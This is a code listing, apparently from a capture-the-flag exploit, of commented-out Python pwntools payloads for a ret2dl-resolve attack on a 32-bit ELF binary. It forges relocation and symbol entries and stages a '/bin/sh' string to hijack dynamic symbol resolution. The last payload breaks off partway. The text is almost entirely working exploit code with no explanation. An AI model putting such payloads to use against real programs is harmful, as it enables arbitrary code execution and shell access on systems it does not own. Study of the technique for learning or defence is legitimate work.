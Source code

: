 ```python
# r_type = 0x7    # R_386_JMP_SLOT -> Create PLT entry
# r_info = (r_sym << 8) + (r_type & 0xff) # ELF32_R_INFO(sym, type) = (((sym) << 8) + ((type) & 0xff))
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = 0x4c
# st_info = 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
# payload_5  = "AAAA"
# payload_5 += p32(plt_0)
# payload_5 += p32(reloc_index)
# payload_5 += "AAAA"
# payload_5 += p32(1)
# payload_5 += p32(base_addr + 80)
# payload_5 += p32(len("/bin/sh"))
# payload_5 += fake_reloc
# payload_5 += "A" * align
# payload_5 += fake_sym
# payload_5 += "A" * (80 - len(payload_5))
# payload_5 += "/bin/sh\x00"
# payload_5 += "A" * (100 - len(payload_5))
# io.sendline(payload_5)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_type = 0x7
# r_info = (r_sym << 8) + (r_type & 0xff)
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr     # address of string "write"
# st_bind = 0x1   # STB_GLOBAL -> Global symbol
# st_type = 0x2   # STT_FUNC -> Symbol is a code object
# st_info = (st_bind << 4) + (st_type & 0xf)  # 0x12
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(st_info)
# payload_6 = "AAAA"
# payload_6 += p32(plt_0)
# payload_6 += p32(reloc_index)
# payload_6 += "AAAA"
# payload_6 += p32(1)
# payload_6 += p32(base_addr + 80)
# payload_6 += p32(len("/bin/sh"))
# payload_6 += fake_reloc
# payload_6 += "A" * align
# payload_6 += fake_sym
# payload_6 += "write\x00"
# payload_6 += "A" * (80 - len(payload_6))
# payload_6 += "/bin/sh\x00"
# payload_6 += "A" * (100 - len(payload_6))
# io.sendline(payload_6)
# print io.recv()

# reloc_index = base_addr + 28 - rel_plt
# fake_sym_addr = base_addr + 36
# align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
# fake_sym_addr = fake_sym_addr + align
# r_sym = (fake_sym_addr - dynsym) / 0x10
# r_info = (r_sym << 8) + 0x7
# fake_reloc = p32(write_got) + p32(r_info)
# st_name = fake_sym_addr + 0x10 - dynstr
# fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)
# payload_7  = "AAAA"
```